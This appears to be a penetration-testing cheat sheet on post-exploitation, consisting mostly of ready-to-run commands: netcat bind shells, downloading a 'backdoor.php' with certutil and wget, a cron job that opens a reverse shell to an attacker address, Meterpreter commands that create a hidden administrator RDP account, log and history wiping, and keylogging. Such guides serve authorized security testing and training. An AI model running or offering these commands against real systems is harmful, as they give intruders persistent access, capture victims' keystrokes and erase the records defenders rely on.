 ```yaml
---
title: "Post-exploitation essentials"
weight: 3
description: "Learn essential post-exploitation techniques and commands for pentesting. This guide covers shell types, file transfer, pivoting, persistence, and clearing tracks."
---
```


# Post-exploitation essentials

---

## Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

```sh
# Windows (target)
nc -nvlp <target_port> -e cmd.exe 
nc.exe -nvlp <target_port> -e cmd.exe

# Linux (target)
nc -nvlp <target_port> -e /bin/bash

# Linux (attacker)
nc -nv <target_ip> <target_port>

# Windows (attacker)
nc.exe -nv <target_ip> <target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also "linux/x64/shell_bind_tcp"
set rhost <target_ip>
set lport <target_port>
run
```
---

## Transfer files

```sh
# Start web server
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
php -S 127.0.0.1:8080

# Download (HTTP Windows)
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# Download (HTTP Linux)
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php     # [sender]

# With base64
cat file | base64 -w 0 # get base64 [output is a single continuous line]
echo <output_base64> | base64 -d > file # create file

# Tips
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php

# Note: netcat "-n" option means no DNS (only IP)
```
---

## \[Fully] interactive shell

**Interactive shell**

```sh
/bin/bash -i # Linux
```

**Fully interactive shell**

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

**Automatic**

```sh
# https://github.com/brightio/penelope
# Currently only Unix shells are fully supported. 
# There's basic support (netcat-like interaction + logging)

./penelope.py <port>               # Reverse shell
./penelope.py -c <target> <port>   # Bind shell
```
---

## Persistence

### Windows

**(1) Metasploit - Module:** Search persistence module (Windows). Ex: `exploit/windows/local/persistence_service` (Requires admin or system privileges). When you want to connect again set a listener to receive the connection

**(2) Enable RDP**

* First way with metasploit: search `enable_rdp` (and set session). Then connect to victim.

   {{< hint style=notes >}}
   **Note**: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM or you can create a new account and add it to administrator group.
   {{< /hint >}}

* Second way with metasploit/meterpreter (auto create account and settings):

    ```sh
    # In meterpreter
    run getgui -e -u user_you_want -p password_you_want

    # This enables rdp service -> 
    # Creates new user with the provided parameters -> 
    # Hides user from windows login screen -> 
    # Adds user to Remote Desktop Users and Administrators group
    ```

### Linux

**(1) Metasploit:** Search persistence module (Linux). Example: `post/linux/manage/sshkey_persistence` (needed elevated privs - This module will add an SSH key to a specified user)

**(2) Via SSH key:** After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH

**(3) With cron jobs**

```sh
# 1. Set up listener
# 2. Create a cronjob (every minute time format)
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron 
# 3. This will replace the user's existing crontab with the contents of 'cron'
crontab cron

# Crontab for the current user
crontab -l 
# NOTE: if the command doesn't work try with another revshell
```
---

## Clearing tracks

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # Clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # Clear history
cat /dev/null > ~/.bash_history     # Same as above
```
---

## Keylogger

```sh
# With metasploit
keyscan_start          # Start keylogger
keyscan_dump print     # Captured strokes
```